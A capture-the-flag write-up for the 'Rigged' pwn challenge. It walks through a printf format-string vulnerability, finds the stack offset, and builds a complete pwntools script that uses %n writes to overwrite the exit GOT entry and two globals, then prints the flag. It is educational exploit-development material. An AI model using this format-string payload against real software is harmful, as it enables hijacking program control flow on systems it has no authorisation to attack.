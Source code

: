 +++
title = "Rigged"
date = 2024-07-02
authors = ["Abhinav I S"]
+++

first we run, checksec

```bash
checksec --file=challenge
```

<br>
{{ img(id="image1.png", alt="Alt Text", class="textCenter") }}

Looking at it in a decompiler (Ghidra)

```c

undefined8 main(void)

{
 long in_FS_OFFSET;
 char local_78 [104];
 long local_10;
 
 local_10 = *(long *)(in_FS_OFFSET + 0x28);
 banner();
 printf(
      "\nHelp Jim to fill these blanks up correctly please and submit your final sentence as the a nswer."
      );
 printf("\nNo matter what answer he provides, it somehow always seems to be wrong.");
 puts(
     "\nHe\'ll fail the test if he keeps getting this wrong! The evil school must have rigged the s ystem"
     );
 printf(
      "\nQ. In order to write efficent \'____\', developers usually go to a \'____\' to drink some  coffee: "
      );
 fflush(stdout);
 fgets(local_78,100,stdin);
 printf("Your final answer was ");
 printf(local_78);
 if ((blank1.1 == 0xc0de) && (blank2.0 == 0xcafe)) {
   printf(
        "\nOh! So you were able to somehow pass by the bearest of margins..Not bad. But its still  not good enough for me to care"
        );
                 /* WARNING: Subroutine does not return */
   exit(0);
 }
 printf(
      "\nYou failed again! Work Harder for the next test unless you wanna be a failure for the res t of your life"
      );
 if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                 /* WARNING: Subroutine does not return */
   __stack_chk_fail();
 }
 return 0;
}
```

We have to write 0xc0de in blank1.1, 0xcafe in blank2.0, and overwrite the GOT entry for exit to the function aced

we will use the printf %n format specifier vulnerability

1. first, we figure out which is the offset where the input we give is stored, using
the payload ABCD.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx...

<br>
{{ img(id="image2.png", alt="Alt Text", class="textCenter") }}

clearly, 8th arguement is the input we give (hex 414243)

2. Address of win function is at 0x401247
> all addresses remain same since PIE is off, we can get these from Ghidra or any decompiler
3. got address of EXIT is 0x404038

4. First we write 0x40 at got address of exit + 2 bytes 0x40 of the 0x401247, then we write 0x1247 (4679) but we have already printed 64 bytes, hence our payload will have 4615 extra bytes to print

5. Address of blank1.1 is 0x404050
6. Address of blank2 is 0x404054

7. we have to write 0xc0de (49374) at 0x404050, since we have printed 4679 bytes already, we need to print 49374 - 4679 = 44695 more bytes

8. Similarly we need to print 2592 more bytes and write it in the address of blank2 (cafe)

Now we can craft our payload 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rvcechalls.xyz", 32855)

    return r


def main():
    r = conn()

    #input is at %8$x
    # blank1 addr = 0x00404050 == 0xc0de
    # blank2 addr = 0x00404054 == 0xcafe

    gotEx = 0x0404038 #got address of exit

    r.recv()
    # got address of EXIT is 0x404038
    # win address is 00401247
    # i have to write 0x40 at win+2 bytes
    # i have to write 0x4038 at win

    payload = b""
    # total bytes in stack  = 9 + 12 + 12 + 11 = 44 : padding = 4A first one is 8th , so we have to start at 14
    payload += b"%64X%14$n" + b"%4615X%15$hn" + b"%44695X%16$n" + b"%2592X%17$nAAAA" + p64(gotEx+2) + p64(gotEx) + p64(0x00404050) + p64(0x404054)

    r.sendline(payload)
    print(hex(exe.got['exit']))
    r.recv()
    r.interactive()


if __name__ == "__main__":
    main()

```

<br>

gives us the flag
```
flag{W00Ww_J1M_Y0uVe_GOT_s0m3_c00l_sk1lzzz_1907f147578}
```
